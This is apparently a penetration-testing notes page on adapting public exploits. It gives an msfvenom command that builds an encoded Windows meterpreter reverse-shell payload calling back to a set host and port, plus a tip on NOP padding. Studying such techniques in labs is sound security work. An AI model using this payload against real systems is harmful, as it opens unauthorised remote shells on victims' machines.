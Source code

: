 # Editing Exploits

We often find exploits that do not work out of the box. Typical problems we encounter are:

* Payload needs to be changed
* Return-address is incorrect

We can generate our own shellcode to replace the default code in the exploit fairly easily using msfvenom.

```text
# Ex. exploit code was written in python for windows exploit
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.120 LPORT=443 -f py -e x86/shikata_ga_nai -i 3 -v shellcode
```

{% hint style="info" %}
It is generally best practice to keep the shellcode the same length as the original for compatability.

* Tip: Try to make your new payload smaller and fill the beginning with extra NOPs to make it the same size.
{% endhint %}

